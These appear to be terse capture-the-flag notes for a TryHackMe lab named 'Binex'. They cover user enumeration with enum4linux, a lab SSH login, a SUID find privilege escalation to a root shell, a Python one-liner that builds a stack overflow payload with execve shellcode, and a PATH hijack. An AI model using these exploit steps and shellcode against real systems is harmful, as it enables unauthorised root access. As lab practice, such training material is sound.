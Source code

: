 # Binex
found with `enum4linux -a <IP>`

S-1-22-1-1000 Unix User\\kel (Local User)  
S-1-22-1-1001 Unix User\\des (Local User)  
S-1-22-1-1002 Unix User\\tryhackme (Local User)  
S-1-22-1-1003 Unix User\\noentry (Local User)  
 

ssh login: tryhackme:thebest

`find / -perm -u=s -type f 2>/dev/null | less -r` for find suid files, simple suid find privesc from gtfobins

`/usr/bin/find . -exec /bin/bash -p \; -quit`  password: destructive\_72656275696c64

`python -c "print('\x90'*108 + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + 'A'*484 + '\x68\xe2\xff\xff\xff\x7f\x00\x00')"`

64 bit binaries need <offset number> + <8 extra> + <overwritten eip 8 bytes>

for root, a modified code , compiled simply with gcc and $PATH variable set to its dir like `export PATH=/home/kel:$PATH`